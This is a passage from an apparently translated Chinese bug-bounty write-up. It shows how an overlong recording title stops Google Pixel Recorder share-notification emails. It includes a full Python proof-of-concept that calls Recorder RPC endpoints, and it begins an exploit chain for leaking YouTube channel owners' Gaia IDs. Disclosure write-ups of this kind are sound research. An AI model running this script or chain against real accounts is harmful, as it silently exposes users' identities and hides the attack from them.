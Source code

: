 换句话说，**这个接口默认就是“必通知”的设定**  
，无法通过简单手段静默操作。  
  
这对我们想要低调挖洞、静悄悄搞测试来说，是个不小的麻烦。  
  
即便我们尝试**在同一个请求中同时添加又移除该用户**  
，邮件依然还是被发了出去——这一招也行不通。  
  
但就在这时候，我们灵光一闪：  
  
如果 Google 的通知邮件会在**主题行中包含我们的录音标题**  
，那会不会在**标题太长时**  
，它就**无法正常发送邮件**  
了？  
  
于是我们立刻动手，撸了个简单的 Python 脚本来验证这个大胆的想法：  
```
import requestsBASE_URL = "https://pixelrecorder-pa.clients6.google.com/$rpc/java.com.google.wireless.android.pixel.recorder.protos.PlaybackService/"headers = {    "Host": "pixelrecorder-pa.clients6.google.com",    "Content-Type": "application/json+protobuf",    "X-Goog-Api-Key": "AIzaSyCqafaaFzCP07GzWUSRw0oXErxSlrEX2Ro",    "Origin": "https://recorder.google.com"}def get_recording_uuid(share_id: str):    payload = f"[\"{share_id}\"]"    response = requests.post(BASE_URL + "GetRecordingInfo" + "?alt=json", headers=headers, data=payload)    if response.status_code != 200:        print("unknown error when getting recording uuid: ", response.json())        exit(1)    try:        response = response.json()    except:        print('can\'t parse response when getting recording uuid: ', response.text)        exit(1)    return response["recording"]["uuid"]def update_recording_title(share_id: str):    x = 'X'*2500000 # 2.5 million char long title name!    payload = f'["{share_id}","{x}"]'    response = requests.post(BASE_URL + "UpdateRecordingTitle" + "?alt=json", headers=headers, data=payload)    if response.status_code != 200:        print("unknown error when updating recording title: ", response.json())        exit(1)def main():    share_id = input("Enter share ID: ")    headers["Cookie"] = input("Cookie header:" )    headers["Authorization"] = input("Authorization header: ")    uuid = get_recording_uuid(share_id)    print("UUID:", uuid)    update_recording_title(uuid)    print("Updated recording title successfully.")if __name__ == "__main__":    main()
```  
  
……然后我们的录音标题一下子飙到了 **250 万个字符**  
 长！  
  
最让人惊讶的是——服务器端居然**没有对录音标题长度做任何限制**  
。完全放飞自我，怎么长都行！  
  
这意味着什么？意味着我们有可能用一个**超长标题“撑爆”邮件通知系统**  
，从而让邮件根本发不出去。聪明吧？😎  
  
![img](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrzBy00NClSsOQMkkWgISthB3y0k95yDJOJzGdo4hcYgNsBE913X9ObV8nf1fBHibEWXPiaYlMkgorw/640?wx_fmt=png&from=appmsg "null")  
  
  
接着我们把这个“超长标题”的录音分享给另一个测试用户……  
  
![img](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrzBy00NClSsOQMkkWgISthfibxiceZebajnMPvxDQC73lCZ1vsaaR61r3Pa2R211ual3Ctm1dwQjIw/640?wx_fmt=png&from=appmsg "null")  
  
### 整合漏洞利用链  
  
我们基本上已经拿到了完整的攻击链，现在只需要把它们串联起来：  
1. 1. 通过 Innertube 接口 /get_item_context_menu 泄露目标 YouTube 频道的 **混淆 Gaia ID**  
  